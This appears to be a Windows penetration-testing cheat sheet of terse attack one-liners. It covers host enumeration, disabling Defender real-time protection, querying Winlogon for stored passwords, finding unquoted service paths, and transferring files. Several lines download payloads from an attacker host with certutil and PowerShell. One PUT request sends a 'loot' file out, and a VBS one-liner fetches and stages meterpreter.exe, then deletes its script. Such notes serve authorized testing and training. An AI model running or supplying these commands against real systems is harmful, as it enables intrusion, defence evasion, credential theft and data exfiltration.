 # Enum    
    whoami /priv
    ipconfig /all     
    net users   
    net localgroup
    dir /r    
    tree /a /f     
    netstat /anto   
    for /L %i in (1,1,255) do @ping -n 1 -w 200 192.168.1.%i > nul && echo 192.168.1.%i is up.     
    
## Scripts
https://github.com/absolomb/Pentesting/blob/master/scripts/winenum.bat

## Powershell
    Get-ExecutionPolicy    
    Set-ExecutionPolicy Unrestricted   
    Set-MpPreference -DisableRealtimeMonitoring $true   
____   

# Exploits
https://lolbas-project.github.io/#   

## Passwords
    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"    
    
## Service Exploits
### Unquoted Service Paths
    wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """   
    
## Kernel exploits   
    systeminfo | findstr /B /C:"OS Name" /C:"OS Version"   
### Tools
https://github.com/bitsadmin/wesng   
https://github.com/rasta-mouse/Watson   
### Precompiled Kernel Exploits
https://github.com/SecWiki/windows-kernel-exploits   

____   


# File Transfer     
    sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
    copy \\10.6.85.85\kali\shell.exe C:\PrivEsc\shell.exe

    certutil.exe -urlcache -split -f "http://$IP/file.bat" file.bat    
    
  
## Powershell
    powershell -c wget "http://$IP/file.exe" -outfile "file.exe"   
    powershell "(New-Object System.Net.WebClient).DownloadFile('$IP','$PORT')"   
    powershell Invoke-WebRequest -Uri http://$IP:$PORT/PowerUp.ps1 -OutFile C:\Users\out  
    
    Invoke-RestMethod -Method PUT -Uri "http://10.10.14.12:8001/l00t.txt" -Body $(Get-Content l00t.txt)

## VBS 
    echo Set o=CreateObject^("MSXML2.XMLHTTP"^):Set a=CreateObject^("ADODB.Stream"^):Set f=Createobject^("Scripting.FileSystemObject"^):o.open "GET", "http://<attacker ip>/meterpreter.exe", 0:o.send^(^):If o.Status=200 Then > "C:\temp\download.vbs" &echo a.Open:a.Type=1:a.Write o.ResponseBody:a.Position=0:If f.Fileexists^("C:\temp\meterpreter.exe"^) Then f.DeleteFile "C:\temp\meterpreter.exe" >> "C:\temp\download.vbs" &echo a.SaveToFile "C:\temp\meterpreter.exe" >>"C:\temp\download.vbs" &echo End if >>"C:\temp\download.vbs" &cscript //B "C:\temp\download.vbs" &del /F /Q "C:\temp\download.vbs"

## XM File Creation (Using copy and paste)
    PS C:\> $console = [XML] @"
    <XML CODE CODE HERE>
    "@
    /# write the xml to file:
    PS C:\> $console.save("C:\users\burmat\documents\console.xml")
 ____   
  
# Resources
## Cheat Sheets
https://burmat.gitbook.io/security/hacking/one-liners-and-dirty-scripts
## Learn More
https://www.roguesecurity.in/2018/12/02/a-guide-for-windows-penetration-testing/
  

